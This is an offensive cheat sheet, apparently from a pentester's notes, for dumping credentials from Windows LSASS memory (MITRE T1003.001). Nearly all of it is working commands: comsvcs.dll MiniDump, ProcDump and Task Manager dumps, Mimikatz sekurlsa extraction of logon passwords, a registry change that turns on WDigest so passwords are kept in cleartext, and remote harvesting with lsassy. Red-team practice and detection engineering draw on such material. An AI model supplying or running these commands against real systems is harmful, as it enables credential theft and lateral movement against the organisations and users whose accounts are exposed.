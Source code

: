 ```yaml
---
date: 
tags:
  - ActiveDirectory
  - LSASS
---
```


```table-of-contents
```

https://attack.mitre.org/techniques/T1003/001/

# ATTACK ID:

[T1003.001](https://attack.mitre.org/techniques/T1003/001/)

**Permissions Required:** **Administrator** | **SYSTEM**

**Description**

Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

As well as in-memory techniques, the LSASS process memory can be dumped from the target host and analyzed on a local system.

# Techniques

## comsvcs.dll

```powershell
# Get lsass.exe PID
tasklist /fi "Imagename eq lsass.exe"

# Call comsvcs.dll and dump to file.
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\lsass_dump.dmp full

# Dump with Mimikatz
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

## Mimikatz

```powershell
Invoke-Mimikatz -DumpCreds
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FSPiXG5ELfSnRBMuklacX%252FMimikatz-DumpCreds.png%3Falt%3Dmedia%26token%3D3222cc7f-fac7-4e62-986f-0ccf7dc3f4b6&width=768&dpr=4&quality=100&sign=485db1cf&sv=2)

## Procdump

**URL:** [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

```powershell
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252F47IsFbRfy9U08kxn0rxX%252Fprocdump.png%3Falt%3Dmedia%26token%3D44800fe7-153d-4b8b-84c6-0d3455d4488a&width=768&dpr=4&quality=100&sign=5e343d5f&sv=2)

`Mimikatz` can then be used to pull information from the `lsass_dump.dmp` file.

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

# Dumping cleartext credentials

The storage mechanism used by WDigest stores passwords in clear text in memory. If an adversary gains access to a system , they can utilize tools like Mimikatz and Lsassy to retrieve not only the password hashes stored in memory, but also the actual passwords in clear text

As a consequence, the attacker would not be restricted to only Pass-the-Hash methods of lateral movement, but could potentially gain access to other resources such as Exchange, internal websites, and any other systems that require a user ID and password for authentication.

```powershell
# CMD (Enable), Requires user to log off/on or lock screen to store in cleartext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# CMD (Disable), System reboot required to complete
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

```powershell
# Mimikatz (Everything)
Invoke-Mimikatz -DumpCreds
# Mimikatx (Just WDigest)
Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

# Lsassy
lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FaTn4IopdqbLQqXOJb3az%252Fimage.png%3Falt%3Dmedia%26token%3D0f862ac8-40a0-432a-99dd-94d72e1afb61&width=768&dpr=4&quality=100&sign=653f313&sv=2)

# Task Manager / RDP

With Administrative RDP or interactive logon it is possible to create a dump file from Lsass.exe using Task Manger.

_Lsass.exe -> Right Click -> Create Dump File_

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FxMxmVSjGEsEUFQa3MZMf%252Fimage.png%3Falt%3Dmedia%26token%3D8a47a124-ed35-4daa-9984-8dd1304fba49&width=768&dpr=4&quality=100&sign=9140eaef&sv=2)

Use Mimikatz to read the dump file after transfering the file to an attacker controlled system

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass.DMP"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```
